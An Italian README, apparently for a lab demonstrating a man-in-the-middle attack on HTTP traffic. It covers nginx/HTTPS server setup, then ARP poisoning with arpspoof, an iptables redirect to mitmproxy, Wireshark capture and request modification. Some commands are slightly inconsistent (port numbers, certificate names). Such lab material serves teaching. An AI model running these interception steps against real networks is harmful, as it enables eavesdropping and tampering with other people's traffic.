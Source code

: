 # File README in fase di scrittura

## Configurazione del server 

### Installazione e configurazione di nginx 
```
sudo apt install nginx -y
sudo systemctl status nginx
sudo mkdir -p /etc/nginx/ssl

sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \ -keyout /etc/nginx/ssl/nginx-selfsigned.key \ -out /etc/nginx/ssl/nginx-selfsigned.crt

cd /etc/nginx/sites-available/

sudo nano /etc/nginx/sites-available/default
```

```
server {
        listen 80 default_server;
        listen [::]:80 default_server;
        server_name 192.168.1.200;

        # Redirect HTTP a HTTPS
        return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name 192.168.1.200;

    ssl_certificate /etc/nginx/ssl/nginx.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx.key;

    location / {
        proxy_pass http://localhost:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

```
sudo nginx -t
sudo restart nginx
```


Clona la repository
```
git clone https://github.com/SenapeDev/CySec.git
cd server
docker compose up --build -d
```

```
make https-on
make https-off
```

## Configurazione del client MITM
### Attivare il forwarding dei pacchetti 
```
sudo su
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### Effettuare ARP Poisoning
```
sudo su
arpspoof -i enp4s0 -t 192.168.1.18 192.168.1.200
```

### Modificare tabelle di routing
In questo modo, tutto il traffico proveniente dalla vittima e inviato all'attaccante sulla porta 80, verrà redirezionato sulla porta 8008, accessibile a mitmproxy
```
sudo iptables -t nat -A PREROUTING -p tcp -s 192.168.1.18 --dport 80 -j REDIRECT --to-port 8080

sudo iptables -t nat -L -v -n
sudo iptables -t nat -D PREROUTING 1
```

### Intercettare pacchetti con Wireshark
```
sudo wireshark
```

### Modificare le richieste inviate dal client
```
mitmproxy -s main.py --mode transparent
```